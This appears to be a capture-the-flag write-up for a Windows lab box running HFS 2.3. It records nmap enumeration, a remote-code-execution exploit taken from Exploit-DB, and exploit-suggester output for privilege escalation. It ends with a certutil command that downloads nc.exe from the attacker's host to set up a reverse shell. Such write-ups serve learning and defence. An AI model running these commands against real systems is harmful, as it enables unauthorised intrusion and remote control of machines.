 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Sat Jul  9 21:40:08 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.28 ms 10.10.14.1
2   74.34 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  9 21:42:08 2022 -- 1 IP address (1 host up) scanned in 120.47 seconds
```
\
**Initial Shell Vulnerability Exploited:**\
Since port 80 was open, I got into the main page and could see that it was powered by HttpFileServer (HFS) 2.3:\
<img src="images/optimum/hfs_mainpage.png" alt="hfs_mainpage" width="600" height="400"/> </br>
I found an exploit for this version on [Exploit-DB](https://www.exploit-db.com/exploits/49584) and modified the exploit to my IP Address and port, and it worked: </br>
<img src="images/optimum/initial_shell_poc.png" alt="initial_shell_poc" width="1000" height="400"/> </br>\
**Vulnerability Explanation:**  The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server
(aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via
a %00 sequence in a search action, and the exploit abuses it </br>
**Initial Shell Screenshot:** </br>
<img src="images/optimum/initial_shell_poc2.png" alt="initial_shell_poc2" width="650" height="120"/> </br> </br>
<!--Privilege Escalation:-->
# Privilege Escalation:
I used [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), and copied all of the system information with the Command: ```systeminfo```, saved it into a file on my Kali, and ran the script with the command:
```bash
python2 windows-exploit-suggester.py --database 2022-07-17-mssb.xls
--systeminfo /home/kali/Downloads/boxes/optimum/sysinfo.txt
```
I found out that this machine was vulnerable to MS16-098: </br>
![windows_exploit_suggester](images/optimum/windows_exploit_suggester.png) </br>
**MS16-098:** </br>
The exploit didn't work and my powershell session got stuck, So i tried using netcat, to send myself a proper CMD shell: </br>
**Kali Linux:** </br>
First, I copied the nc.exe binary to my working directory: ```cp /usr/share/windows-binaries/nc.exe . ``` </br>
Second, I Hosted a python http server with: ```python -m http.server 80``` </br>
**Windows Target Machine:** </br>
I used certutil to transfer the file from my Kali to the Windows machine:
```bash
certutil -urlcache -split -f "http://10.10.14.3/nc.exe" nc.exe
```